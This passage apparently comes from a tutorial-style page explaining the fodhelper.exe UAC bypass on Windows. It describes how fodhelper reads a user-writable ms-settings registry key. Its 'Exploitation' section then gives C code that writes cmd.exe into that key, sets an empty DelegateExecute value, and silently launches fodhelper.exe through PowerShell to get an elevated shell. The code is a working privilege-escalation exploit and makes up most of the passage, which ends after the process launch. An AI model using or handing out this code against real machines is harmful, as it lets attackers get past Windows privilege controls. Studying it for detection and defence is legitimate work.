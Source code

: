 In the case of `fodhelper.exe`, the system queries `HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\Command`. This is because settings under `HKEY_CURRENT_USER\Software\Classes` are specific to the currently logged-in user and can override the system-wide settings. For instance, if a user has set `.html` files to open with a different browser, this preference is saved in this registry path. As a result, system checks this location to see if the user has any custom commands for opening `exe` files. This allows `fodhelper.exe` to execute commands with elevated privileges based on user-specific configurations.



## Exploitation

Now that the exploitation process is understood, let’s take a look at how it is represented in code.

```c
 // Registry path to be created
    LPWSTR subkey = L"Software\\Classes\\ms-settings\\Shell\\Open\\command";
    HKEY phkresult;
    DWORD dwDisposition;

    // Create the specified registry key
    if (RegCreateKeyExW(HKEY_CURRENT_USER, subkey, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &phkresult, &dwDisposition) != ERROR_SUCCESS) {
        printf("RegCreateKeyExW failed with error code %x\n", GetLastError());
        return 1;
    }

    printf("The disposition is %x\n", dwDisposition);

  
    LPSTR valueName = "DelegateExecute";
    char values[MAX_PATH] = "cmd.exe";

    // Set the value for the default key
    if (RegSetValueExA(phkresult, NULL, 0, REG_SZ, (const BYTE*)values, lstrlenA(values) + 1) != ERROR_SUCCESS) {
        printf("RegSetValueExA failed with error code %x\n", GetLastError());
        RegCloseKey(phkresult);
        return 1;
    }

    // Set the value for the DelegateExecute key
    if (RegSetValueExA(phkresult, valueName, 0, REG_SZ, NULL, 0) != ERROR_SUCCESS) {
        printf("RegSetValueExA failed with error code %x\n", GetLastError());
        RegCloseKey(phkresult);
        return 1;
    }

    
    RegCloseKey(phkresult);

    
    STARTUPINFO si = { 0 };
    si.cb = sizeof(si);
    PROCESS_INFORMATION pi = { 0 };

    // Create a new process to run fodhelper.exe
    if (!CreateProcessA(NULL, "powershell.exe -c fodhelper.exe", NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi)) {
        printf("CreateProcessA failed with error code %x\n", GetLastError());
        return 1;
    }

   
```